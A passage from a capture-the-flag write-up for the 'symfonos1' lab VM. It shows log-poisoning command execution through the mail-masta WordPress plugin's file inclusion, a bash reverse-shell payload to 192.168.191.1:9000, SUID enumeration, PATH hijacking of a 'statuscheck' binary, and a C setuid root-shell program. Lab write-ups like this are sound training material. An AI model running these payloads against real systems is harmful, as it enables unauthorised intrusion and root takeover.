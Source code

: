 ```url
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=whoami
```

{{< image src="/img/symfonos1/symfonos13.png" alt="symfonos1" position="center" style="border-radius: 8px;" >}}

Now we can get a reverse shell using this payload: 

```sh
/bin/bash -c "/bin/bash -i >%26 /dev/tcp/192.168.191.1/9000 0>%261 %26"
```

# Privilege Escalation

Usual enumeration for privilege escalation involves looking for suid binaries by using find.

```sh
find / -perm -4000 2>/dev/null
```

The binary statuscheck isn't among the linux default ones.

{{< image src="/img/symfonos1/symfonos14.png" alt="symfonos1" position="center" style="border-radius: 8px;" >}}

After running it and then running strings against it, it calls the curl command when executed.

{{< image src="/img/symfonos1/symfonos15.png" alt="symfonos1" position="center" style="border-radius: 8px;" >}}

Since it doesn't use the absolute path we can abuse this by setting our own PATH and make it call our own custom
curl command.

In my custom curl script I get a copy of bash and give it suid permissions:

{{< image src="/img/symfonos1/symfonos16.png" alt="symfonos1" position="center" style="border-radius: 8px;" >}}

### Rooted

{{< image src="/img/symfonos1/symfonos17.png" alt="symfonos1" position="center" style="border-radius: 8px;" >}}

# Extras

Better way to handle the sending email part using sendEmail:

```sh
sendEmail -t root@symfonos.localdomain -f test@sendEmailtest.com -s 192.168.191.128:25 -u "Test Subject" -m "Test Message" -o tls=no
```

Better suid exploit, compiling a c program that correctly sets the uid and gid as root.

```c
#include<unistd.h>
void main(){
    setgid(0); 
    setuid(0);
    execl("/bin/bash","/bin/bash",0);
}
```
Reason why sending mails addressed to other users drops all the mails to helios is because of aliases set in postfix: /etc/postfix/main.cf
